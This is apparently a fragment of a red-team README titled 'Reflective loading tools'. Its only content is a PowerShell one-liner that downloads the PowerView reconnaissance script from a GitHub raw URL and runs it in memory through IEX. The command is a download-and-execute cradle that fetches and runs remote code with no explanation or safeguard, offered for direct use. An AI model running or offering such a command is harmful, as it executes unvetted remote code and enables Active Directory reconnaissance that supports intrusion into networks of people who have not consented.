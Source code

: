 # Reflective loading tools

PowerView
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerView.ps1') | IEX
```
